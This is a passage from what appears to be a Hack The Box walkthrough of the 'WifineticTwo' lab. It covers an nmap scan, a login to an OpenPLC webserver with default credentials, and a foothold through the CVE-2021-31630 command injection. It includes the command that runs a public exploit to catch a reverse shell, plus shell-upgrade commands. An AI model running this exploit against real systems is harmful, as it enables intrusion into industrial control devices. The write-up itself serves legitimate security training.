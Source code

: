 ```shell
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Thu,\x2025\x20Apr\
SF:x202024\x2021:39:45\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Our scan reveals two open ports 22 (SSH) and 8080 (http-proxy).

## Enumeration

We find a login form at `http://10.10.11.7:8080` for OpenPLC Webserver.

![OpenPLC login form](/images/HTB-WifineticTwo/OpenPLC-webserver.png)

The default credentials allow us to login.

![OpenPLC default credentials](/images/HTB-WifineticTwo/openplc-creds.png)

We access the Dashboard. The different sections give us some information but nothing is standing out at the moment.

![OpenPLC dashboard](/images/HTB-WifineticTwo/openPLC-dashboard.png)

## Initial Foothold

We find [CVE-2021-31630](https://nvd.nist.gov/vuln/detail/CVE-2021-31630) which is a command injection vulnerability for Open PLC Webserver v3 and an exploit is available [here](https://github.com/Hunt3r0x/CVE-2021-31630-HTB).

> To make this exploit work you have to add the target IP as `wifinetictwo.htb` in your `/etc/hosts` file.

After running the exploit we catch a shell on out listener.

```
python ./exploit.py -ip <IP_ADDRESS> -p <PORT_NUMBER> -u openplc -pwd openplc
```

![OpenPLC RCE](/images/HTB-WifineticTwo/openplc-rce.png)

![WifineticTwo foothold](/images/HTB-WifineticTwo/foothold.png)

Our shell can be upgraded with the commands below.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```
